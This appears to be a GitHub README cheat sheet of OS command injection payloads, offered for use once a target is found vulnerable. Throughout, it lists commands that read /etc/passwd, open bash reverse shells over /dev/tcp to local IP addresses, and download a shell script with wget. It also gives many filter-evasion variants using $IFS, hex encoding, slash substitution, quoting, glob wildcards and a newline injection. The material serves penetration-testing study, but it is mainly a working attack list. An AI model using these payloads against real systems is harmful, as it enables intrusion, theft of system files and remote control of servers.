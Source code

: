 # What is OS Command Injection?
OS Command Injection (also known as shell injection) is a vulnerability that allows an attacker to execute 
arbitrary operating system commands on a server running an application with the web server's privileges. 
The vulnerability occurs when an application invokes a shell command to execute a task with user input but 
does not filter it carefully.

The OS command injection vulnerability could allow an attacker to perform behaviors such as:

- Execute system commands.

- Damage the application, the server running the application, and the data on it.

- Implement SSRF.

- Remote Code Execution.

- ...

## Basic commands
Here I give 3 commonly used commands after detecting the test system affected by OS Command Injection

1. Read files on Server
 ```
cat /etc/passwd
```
2. Reverse Shell
```
bash -i >& /dev/tcp/127.0.0.1/8080 0>&1

```
3. Download reverse shell trên server
```
wget http://127.0.0.1:8080/x.sh -O /tmp/y.sh
```
## Bypass without space

> In case the server prevents OS Commnad Injection by validating "spaces". We perform bypass in the following ways:
1. Read files on Server
```bash
* cat</etc/passwd

* (cat,/etc/passwd)

* cat${IFS}/etc/passwd

* X=$'cat\x20/etc/passwd'&&$X

* bash</etc/passwd

* IFS=,;$(cat<<<cat,/etc/passwd) (Chỉ hoạt động trên Bash Shell)
```
2. Reverse Shell
```bash
* bash$IFS-i$IFS>&$IFS/dev/tcp/192.168.1.21/8080$IFS0>&1 

* echo${IFS}"RCE"${IFS}&&bash${IFS}-i${IFS}>&${IFS}/dev/tcp/127.0.0.1/8080$IFS0>&1

* sh</dev/tcp/127.0.0.1/8080

* IFS=,;`bash<<<bash,-i,>&/dev/tcp/127.0.0.1/8080;0>&1
```
3. Download reverse shell trên server
```bash
* {wget,http://127.0.0.1:8080/x.sh,-O,/tmp/y.sh}

* wget${IFS}http://127.0.0.1:8080/x.sh${IFS}-O${IFS}/tmp/y.sh

* X=$'wget\x20http://127.0.0.1:8080/x.sh\x20-O\x20/tmp/y.sh'&&$X

* IFS=,;$(cat<<<wget,http://127.0.0.1:8080/x.sh,-O,/tmp/y.sh)
```
## Bypass characters filter via hex encoding
1. Read files on Server
```bash
* cat $(echo -e "\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64")

* cat $(xxd -r -p <<< 2f6574632f706173737764)

* cat $(xxd -r -ps <(echo 2f6574632f706173737764))
```
> (Where the value ```\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x66```corresponds to /etc/passwd after hex encoding)

2. Dowload reverse shell trên server
```bash
* $(xxd -r -p <<< 7767657420687474703a2f2f3132372e302e302e313a313231322f782e7368202d4f202f746d702f792e73680a)

* $(xxd -r -ps <(echo 7767657420687474703a2f2f3132372e302e302e313a313231322f782e7368202d4f202f746d702f792e73680a))

* $(echo -e "\x77\x67\x65\x74\x20\x68\x74\x74\x70\x3a\x2f\x2f\x31\x32\x37\x2e\x30\x2e\x30\x2e\x31\x3a\x31\x32\x31\x32\x2f\x78\x2e\x73\x68\x20\x2d\x4f\x20\x2f\x74\x6d\x70\x2f\x79\x2e\x73\x68\x0a")
```

> (Where the value 
```7767657420687474703a2f2f3132372e302e302e313a313231322f782e7368202d4f202f746d702f792e73680a```
corresponds to " wget http://127.0.0.1:1212/x.sh -O /tmp/y.sh " after hex encoding)

## Bypass without backslash and slash

> In case the server prevents OS Commnad Injection by validating the sign ```"/"```and the 
```"\".``` We perform bypass in the following ways:
1. Read files on Server
```bash
* cat ${HOME:0:1}etc${HOME:0:1}passwd

* cat $(echo . | tr '!-0' '"-1')etc$(echo . | tr '!-0' '"-1')passwd
```
> (Where the value ${HOME:0:1} and (echo . | tr '!-0' '"-1') in place of / )

2.Reverse Shell
```bash
* bash -i >& ${HOME:0:1}dev${HOME:0:1}tcp${HOME:0:1}127.0.0.1${HOME:0:1}8080 0>&1

* bash -i >& $(echo . | tr '!-0' '"-1')dev$(echo . | tr '!-0' '"-1')tcp$(echo . | tr '!-0' '"-1')127.0.0.1$(echo . | tr '!-0' '"-1')8080 0>&1
```
3. Download files on the server
```bash
* wget http:${HOME:0:1}${HOME:0:1}127.0.0.1:8080${HOME:0:1}x.sh -O ${HOME:0:1}tmp${HOME:0:1}y.sh

* wget http:$(echo . | tr '!-0' '"-1')$(echo . | tr '!-0' '"-1')127.0.0.1:8080$(echo . | tr '!-0' '"-1')x.sh -O $(echo . | tr '!-0' '"-1')tmp$(echo . | tr '!-0' '"-1')y.sh
```
## Bypass Blacklisted words

> In case the server prevents OS Commnad Injection by not allowing the input of 
common commnads like "cat , more , bash , wget .." We perform the 
bypass in the following ways:

1. Read files on Server
```
* c'a't /etc/passwd

* c"a"t /etc/passwd

* c\a\t /etc/passwd

* ca$@t /etc/passwd

* /???/c?t /etc/passwd

* /???/c?t /?tc/?as?wd
```
2. Reverse Shell
```
* b'a'sh -i >& /dev/tcp/127.0.0.1/8080 0>&1

* b"a"sh -i >& /dev/tcp/127.0.0.1/8080 0>&1

* b\a\s\h -i >& /dev/tcp/127.0.0.1/8080 0>&1

* ba$@sh -i >& /dev/tcp/127.0.0.1/8080 0>&1

* /???/b?sh -i >& /dev/tcp/127.0.0.1/8080 0>&1
```
3. Download files on the server
```

* w'ge't http://127.0.0.1:8080/x.sh -O /tmp/y.sh

* w"ge"t http://127.0.0.1:8080/x.sh -O /tmp/y.sh

* /???/?i?/w?et http://127.0.0.1:8080/x.sh -O /tmp/y.sh
```
## Bypass with a line return
- something%0Acat%20/etc/passwd

























